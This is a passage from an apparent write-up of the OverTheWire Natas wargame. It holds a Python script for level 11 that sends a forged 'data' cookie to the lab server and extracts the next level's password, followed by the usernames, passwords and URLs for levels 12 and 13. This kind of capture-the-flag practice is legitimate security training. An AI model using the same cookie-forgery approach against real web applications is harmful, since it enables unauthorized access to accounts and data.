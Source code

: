 			# -*- coding: utf-8 -*-

			import requests as req
			import re
			import base64
			from urllib import parse


			user = "natas11"
			passwd = "U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK"
			
			viewSourceCode = 'index-source.html'

			cookies = {'data': 'ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK'}

			url = f"http://{user}.natas.labs.overthewire.org/"

			response = req.get(url, auth=(user, passwd), cookies=cookies)

			# TODO: Get cookies
			# unquote => decode url encoded
			# content = parse.unquote(response.cookies["data"])

			# TODO: Get the answer
			content = response.text
			answer = re.findall("The password for natas12 is (.*)<br>", content)[0]
			print(answer)

			# with open("./Natas/response.html", mode='w', encoding='utf-8') as f:
			#     print(content, file=f)
            ```

# <span class="bigTitle">Level12</span>
- username: natas12
- password: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
- url: http://natas12.natas.labs.overthewire.org/
- Solution

# <span class="bigTitle">Level13</span>
- username: natas13
- password: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
- url: http://natas13.natas.labs.overthewire.org/
- Solution
